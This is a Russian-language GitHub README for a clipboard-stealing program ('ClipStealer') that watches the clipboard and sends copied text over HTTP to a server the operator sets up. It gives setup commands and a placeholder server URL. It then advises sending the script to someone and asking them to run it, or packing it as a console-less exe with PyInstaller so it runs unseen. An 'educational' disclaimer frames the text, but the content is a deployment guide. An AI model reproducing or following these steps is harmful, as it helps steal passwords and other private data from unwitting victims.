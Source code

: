 # CleapStealer - вирус, копирующий всю информацию из буфера обмена.

## Описание

Программа позволяет перехватывать данные из буфера обмена и отправлять их на удалённый сервер. Этот проект создан исключительно для образовательных целей, чтобы понять, как подобные механизмы работают, и как защититься от них.

## Возможности

- Мониторинг буфера обмена.
- Сохранение текста, копируемого пользователем.
- Отправка данных на сервер через HTTP-запросы.

## Установка и запуск

### Шаг 1: Скачивание

Клонируйте репозиторий на своё устройство:

```bash
git clone https://github.com/Filinsl/ClipStealer.git
```

### Шаг 2: Установка зависимостей

Перейдите в директорию проекта и установите зависимости:

```bash
cd ClipStealer
pip install -r requirements.txt
```

### Шаг 3: Редактирование 
Замените  ссылку в файле ClipStealer.py на Url сервера для отправки запроса
```
SERVER_URL = 'ezample_url/api/clipboard'  # Замените на ваш адрес
```
### Шаг 4: Запуск сервера

Запустите сервер:

```bash
python server.py
```



### Шаг 5: Отправка файла
Вы можете отправить кому то файл ClipStealer.py и попросить запустить через консоль

```bash
python ClipStealer.py
```
Или вы можете собрать exe файл, например с помощью PyInstaller

```bash
pyinstaller --onefile --noconsole ClipStealer.py
```

## Отказ от ответсвенности

Этот проект предоставлен исключительно для образовательных целей. Любое несанкционированное использование кода может быть наказуемо законом.


